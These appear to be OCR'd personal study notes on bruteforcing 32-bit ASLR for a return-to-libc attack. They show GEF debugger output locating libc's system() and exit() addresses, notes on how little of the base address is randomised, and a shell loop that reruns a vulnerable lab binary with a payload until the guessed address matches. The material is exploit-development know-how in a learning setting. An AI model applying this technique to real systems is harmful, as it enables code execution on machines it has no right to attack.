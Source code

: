 ### Bruteforcing ASLR

* Running `vmmap` inside Gef in two different runs gives two different libc base addresses
```bash
0xf7d|75|000 0xf7d|98|000 0x00000000 r-- /usr/lib32/libc.so.6
0xf7c|f6|000 0xf7d|19|000 0x00000000 r-- /usr/lib32/libc.so.6
```
* We see that only one octet changes each time the program runs with the ASLR activated

* We can collect the system() and exit() addresses inside Gef too
```bash
gef➤  p system
$3 = {<text variable, no debug info>} 0xf7d45560 <system>
gef➤  xinfo 0xf7d45560
────────────────────────────────────────────── xinfo: 0xf7d45560 ──────────────────────────────────────────────
Page: 0xf7d19000  →  0xf7e97000 (size=0x17e000)
Permissions: r-x
Pathname: /usr/lib32/libc.so.6
Offset (from page): 0x2c560
Inode: 0
Segment: .text (0xf7d191b0-0xf7e96f19)
Offset (from segment): 0x2c3b0
Symbol: system


gef➤  p exit
$4 = {<text variable, no debug info>} 0xf7d34290 <exit>
gef➤  xinfo 0xf7d34290
────────────────────────────────────────────── xinfo: 0xf7d34290 ──────────────────────────────────────────────
Page: 0xf7d19000  →  0xf7e97000 (size=0x17e000)
Permissions: r-x
Pathname: /usr/lib32/libc.so.6
Offset (from page): 0x1b290
Inode: 0
Segment: .text (0xf7d191b0-0xf7e96f19)
Offset (from segment): 0x1b0e0
Symbol: exit
```

### Notes
* Only one octet changes each time the program runs with the ASLR activated
* We wanna target the system and exit functions
* Need to take into account that the offset is ALWAYS the same
* We can either add addresses manually or use pwntools to do it.

### PLAN
* Bruteforcing the libc base address by setting up a base address for it that we collected at one point, run an infinite loop on it until it matches the actual libc address used by the vulnerable program


```bash
$ while [ True ]; do ./vulnerable $(cat payload); done
```
